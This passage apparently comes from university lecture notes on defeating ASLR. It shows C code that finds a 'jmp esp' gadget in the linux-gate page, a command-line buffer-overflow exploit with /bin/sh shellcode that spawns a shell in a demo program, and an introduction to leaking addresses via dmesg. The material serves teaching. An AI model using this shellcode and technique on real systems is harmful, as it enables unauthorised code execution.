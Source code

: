 ``` {#search_gate.c .c}
#include <stdio.h>
#include <stdlib.h>

int main(){

  unsigned long linuxgate_start=0xffffe000;
  char *ptr = (char *) linuxgate_start;

  int i;
  for(i=0;i<4096 /*one page*/; i++){
    if ( ptr[i] == '\xff' && ptr[i+1] == '\xe4'){
      printf("Found jmp esp at %p\n", ptr+i);
    }
  }

  return 0;
}
```

``` {.example}
user@ubuntu-6-06:~/si485h-class-demos/class/17$ ./search_gate 
Found jmp esp at 0xffffe777
```

So we can now use that address as our bounce point to exploit the
vulnerable program. Here's that vulnerable program being exploited,
agian.

``` {.example}
user@ubuntu-6-06:~/si485h-class-demos/class/17$ ./vulnerable 1 `python -c "print 'A'*(0x20+0x8) + '\x77\xe7\xff\xff' + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

user@ubuntu-6-06:/home/user/si485h-class-demos/class/17$ exit  #<--- here I'm in the shell
exit
user@ubuntu-6-06:~/si485h-class-demos/class/17$
```

Basing from dmesg
=================

Another strategy for circumventing ASLR is called basing, where through
some side channel, you learn the offset or the base address of the
loaded page, which will reveal where to jump. This can be done remotely,
or locally, and here we'll focus on using `dmesg` to reveal the base of
the map and our jump point.

dmesg
-----

`dmesg` is the kernel logging functionality that is availble to the
user. It reports things like network setup and tear down, and also
information about segementation faults. Which we will use today.
